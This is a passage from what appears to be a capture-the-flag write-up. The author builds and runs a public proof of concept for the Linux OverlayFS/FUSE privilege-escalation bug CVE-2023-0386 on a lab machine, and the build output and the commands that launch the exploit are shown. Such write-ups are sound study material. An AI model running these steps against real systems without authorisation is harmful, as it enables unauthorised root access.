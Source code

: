 So there's some kernel exploits! Looking for OverlayFS / FUSE CVE PoC finds [CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386).

I downloaded the repo, put it all in a ZIP and downloaded the zip from a python webserver to the box.

Once unzipped I ran `make all` to construct the exploit:

```
$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

I then ran `./fuse ./ovlcap/lower ./gc` in my first shell, opened a new SSH instance with the user `admin` and ran `./exp`.

```
$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
```
